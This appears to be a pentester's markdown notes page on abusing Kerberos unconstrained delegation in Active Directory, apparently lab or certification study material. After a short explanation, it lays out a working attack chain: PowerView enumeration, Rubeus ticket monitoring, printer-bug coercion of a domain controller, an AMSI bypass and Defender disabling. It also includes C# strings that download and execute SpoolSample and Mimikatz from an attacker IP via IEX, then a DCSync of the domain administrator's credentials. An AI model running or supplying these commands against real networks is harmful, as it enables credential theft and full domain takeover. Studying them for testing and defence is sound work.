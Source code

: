 # Unconstrained Delegation

## What it is

Ref: (https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

- Happens in the cases where there is a frontend service host (Host A) and a backend service host (Host B)
- When a user wants to access a service, a TGS specific to that service and that user is issued by the KDC
- But the user cant use the TGS for the frontend service to authenticate to the backend service
- To solve this problem, the frontend service is configured for unconstrained delegation which designates Host A as a host that can forward TGS and authenticate on behalf of the user to ANY SERVICE
- Typically, services may be misconfigured with this so worth checking!

## How to check if we can do this

1) Via Bloodhound (CoerceToTGT)
2) Via Powerview (Any non-DC host with the TRUSTED_FOR_DELEGATION in its UAC attribute)
```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol.dnshostname | format-list
```

## Exploiting it

1) After identifying the host, gain local admin access on that host
2) Using meterpreter or potatos or print spooler, elevate yourself to NT Authority/SYSTEM
3) open Administrator cmd prompt and execute Rubeus in monitoring mode
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```
4) Use any domain credential that you have to log in to a host and trigger the printer bug through the following:

a) Via SpoolSample.exe


b) Via Invoke-Spoolsample

- Grab the script from here (https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

- Use the Custom Runspace to bypass AMSI, download the script in memory from your apache2 server, and then execute it with the following commands (within the runspace)

First Arg to -Command is the DC hostname, Second Arg is the hostname of where your Rubeus is being run on (the unconstrained delegation host)

```csharp
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/spoolsample.txt') | IEX; Invoke-SpoolSample -Command 'dc03.infinity.com web05.infinity.com'"; 
```



5) Load the DC machine account ticket into your current domain user; and attempt to DCSync. Prior to loading mimikatz, you may need to find someway to disable defender. This can be done via a LOCAL high priv account (For example from LAPS) and disable the defender via another shell.

```csharp
// Watch the quotation marks! 
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command "`"lsadump::dcsync /domain:infinity.com /user:infinity\\administrator`""";
```

```csharp
String cmdmimi = "lsadump::dcsync /domain:infinity.com /user:infinity\\administrator";

String cmd2 = $"(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command {cmdmimi} | Out-File -FilePath C:\\windows\\tasks\\dcsync.txt";
```


*ALTERNATIVE WAY*

- Since you have a meterpreter session, you can make use of kiwi!

```bash
meterpreter > load kiwi
# dcsync followed by the account you want to target
meterpreter > dcsync administrator 

```